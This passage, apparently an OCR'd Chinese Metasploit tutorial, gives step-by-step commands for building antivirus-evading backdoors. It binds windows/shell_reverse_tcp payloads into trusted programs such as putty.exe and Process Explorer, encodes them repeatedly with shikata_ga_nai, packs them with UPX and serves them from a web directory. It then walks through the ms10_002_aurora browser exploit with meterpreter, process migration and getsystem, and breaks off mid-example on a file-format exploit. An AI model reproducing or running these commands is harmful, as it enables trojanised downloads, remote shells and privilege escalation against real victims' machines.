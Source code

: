 ``` 
（题外：经测试，1：使用此命令生成的后门也被MSE 杀到；2：未编码的后门或编码次数较少的后门可以直接被秒杀；3：windows/x64/meterpreter/reverse_tcp 生成的后门未经任何处理仍然不被杀，看来杀毒软件傻逼了；4：x86 编码器编码的后门在64 位机器上无法执行；5：360 有个沙箱功能，后门文件右键选择“在360 隔离沙箱中运行”，msf照样可以连接并操作，看来隔离沙箱功能有限。）

#### 4、自定义可执行程序模板： 
msfencode 默认使用data/templates/templates.exe（msf v4 在templates 目录下有针对不同 
平台的不同模板）作为可执行程序的模板，杀毒厂商也不是傻逼，所以这里最好使用自定义模板，如： 
wget http://download.sysinternals.com/Files/ProcessExplorer.zip 
cd work 
unzip ProcessExplorer.zip 
cd .. 
msfpayload windows/shell_reverse_tcp LHOST=192.168.1.111 LPORT=8080 R | msfencode 
–t exe –x work/procexp.exe –o /var/www/pe_backdoor.exe –e x86/shikata_ga_nai –c 5 
在目标机器上运行，然后本地使用msfcli 监听端口等待反弹连接： 
msfcli exploit/multi/handler PAYLOAD=windows/shell_reverse_tcp LHOST=192.168.1.111 
LPORT=8080 E

#### 5、暗度陈仓—猥琐执行payload： 
绑定payload 至一个可执行文件，让目标不知不觉间中招，以putty.exe 为例： 
```
msfpayload windows/shell_reverse_tcp LHOST=192.168.1.111 LPORT=8080 R | msfencode 
–t exe –x putty.exe -o /var/www/putty_backdoor.exe –e x86/shikata_ga_nai –k –c 5 
```
假如选择一个GUI 界面的程序作为绑定目标并且不使用 **-k** 选项，则目标执行此程序的时候不会弹出cmd窗口， **-k** 选项的作用是payload 独立于模板软件的进程运行。

#### 6、加壳： 
msfencode 部分编码器会增加程序体积，这时可使用壳（packer）来压缩程序，“带套之后更保险”，例如UPX ： 
apt-get install upx 
最新版可到sf.net 下载 
使用方法： 
upx -5 /var/www/payload3.exe 
还有另外一个工具msfvenom 结合了msfpayload 和msfencode 的功能，使用起来更省心， 
亲，一定要试试哦！过杀软总结起来就是多次编码和使用多种壳，终极大法就是使用自己编写的后门（市面上没有，被杀几率更低）。

### 八．使用用户端攻击方式(client-side attacks) 
#### 1、主要指利用多种途径包括社会工程学方式攻击目标机器上安装的带有漏洞的程序如浏览 器，pdf 阅读器，office 软件等，最终获取系统权限。 
基于浏览器的攻击： 
例子： 
```
msf> use windows/browser/ms10_002_aurora 
set payload windows/meterpreter/reverse_tcp 
set SRVPORT 80 
set URIPATH / 
set LHOST 192.168.1.111 
set LPORT 443 
exploit –z 
sessions –i 1 
run migrate 
```
或者: 
```
msf> use windows/browser/ms10_002_aurora 
show advanced 
set ReverseConnectRetries 10 
set AutoRunScript migrate –f 
exploit 
use priv 
getsystem
```
#### 2、文件格式exploit 
利用文件格式的漏洞达到溢出的目的，比如PDF，word，图片等。 
例子： 
msf> use windows/fileformat/ms11_006_createsizeddibsection 
info 
```